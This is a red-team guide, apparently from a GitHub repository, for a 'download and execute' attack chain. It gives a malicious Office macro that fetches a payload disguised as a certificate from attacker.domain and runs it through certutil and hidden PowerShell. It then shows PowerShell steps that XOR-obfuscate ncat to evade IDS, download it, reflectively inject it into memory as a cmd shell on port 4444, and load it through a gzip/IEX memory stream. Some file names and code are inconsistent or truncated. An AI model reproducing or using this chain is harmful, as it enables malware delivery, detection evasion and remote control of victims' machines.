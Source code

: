# Use Case 3: Download and Execute

**Office doc and Macro development**

Embed the following malicious macro into an office doc:

```vbscript
Sub DownloadAndExec()
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
    
'Replace attacker.domain/ps1_b64 with real-world domain and location 
xHttp.Open "GET", "https://attacker.domain/ps1_b64.crt", False

xHttp.Send
With bStrm
 .Type = 1 '//binary
 .Open
 .write xHttp.responseBody
 .savetofile "encoded_ps1.crt", 2 '//overwrite
End With
Shell ("cmd /c certutil -decode encoded_ps1.crt decoded.ps1 &
c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -W
Hidden .\decoded.ps1")
End Sub
```

The above macro will go out to **attacker.domain** and fetch **ps1_b64.crt** (*this should be a base64 encoded payload saved as a certificate file [.cer or.crt]*).

**IDS Evasive Payload**

1. Transform **ncate.exe** to base64 string.  Paste the below PS script into PS ISE and then run `Convert-BinaryToString` against the **full-path name** of **ncat.exe**.

```powershell
function Convert-BinaryToString {
 [CmdletBinding()] param (
 [string] $FilePath
 )
 try {
 $ByteArray = [System.IO.File]::ReadAllBytes($FilePath);
 }
 catch {
 throw "Failed to read file.";
 }
 if ($ByteArray) {
 $Base64String = [System.Convert]::ToBase64String($ByteArray);
 }
```

```powershell
Convert-BinaryToString full_path_to_ncat_executable
```

2. Create key to XOR-obfuscate the Base64-converted ncat.exe.  

*In bash*

```bash
cat encoded-ncat |sed -e 's/A/M/g' > xorKey-encoded-ncat
```
*In PowerShell*

```powershell
cat .\encoded-calc.txt |%{$_ -replace"A","M"} > xorKey-encoded-cal
```

3. XOR the Base64-converted ncat.exe

   - Run the following PS script in a PS window.  (It asks for output file name).  In the case of this example out-file = **xor_obfuscated_calc**

```powershell
powershell -ep bypass ..\scripts\powershell-XOR.ps1 .\encoded-calc.txt .\xorKey-encoded-cal
```

4. Utilize modified Invoke Reflective PE Injection script [here](https://gist.github.com/anonymous/01ff63395cc8b3a8a6dad3402d3bf8b9), being sure to add (to the end) and update the following lines with the correct attack server.
   - GZIP compress the full script with the [compress tool](http://www.txtwizard.net/compression)

```powershell
#Drop the XORed Ncat from step 3 and the XOR key from Step 2 to Temp
(new-object Net.WebClient).DownloadFile('http://attacker.domain/xored_ncat' ,
$env:temp+"/ciphertext")
(new-object Net.WebClient).DownloadFile('http://attacker.domain/xor_key' ,
$env:temp+"/key")
$ciphertext = [System.IO.File]::ReadAllBytes($env:temp+"/ciphertext")
$key = [System.IO.File]::ReadAllBytes($env:temp+"/key")
$len = if ($ciphertext.Count -lt $key.Count) {$ciphertext.Count} else {
$key.Count}
$xord_byte_array = New-Object Byte[] $len
#XOR between the XORed Ncat and the XOR key
for($i=0; $i -lt $len ; $i++) {
$xord_byte_array[$i] = $ciphertext[$i] -bxor $key[$i] }
#The deciphered Ncat is stored on Temp
[System.IO.File]::WriteAllBytes($env:temp+"/deciphered", $xord_byte_array)
$deciphered = Get-Content $env:temp/deciphered
$PEBytes = [System.Convert]::FromBase64String($deciphered)
#De-obfuscated Ncat is reflectively loaded into memory
Invoke-PEInjectionInMemory -PEBytes $PEBytes -ExeArgs "-nlvp 4444 -e cmd"
```


5. Embed GZIP compressed fully moded PE file (step 4) into the below PS script and save as a gzip-memorystream.ps1.

```powershell
$s=New-Object
IO.MemoryStream(,[Convert]::FromBase64String('insert_gzip_compressed_InvokeReflectivePEInjection'));
IEX (New-Object IO.StreamReader(New-Object
IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).
ReadToEnd()
```

6. Base64 Encode **gzip-memorystream.ps1** (step 5) and save as a **.crt** (CRT) file.  Host this file on the attack server.  Use the same method of encoding as Step 1.
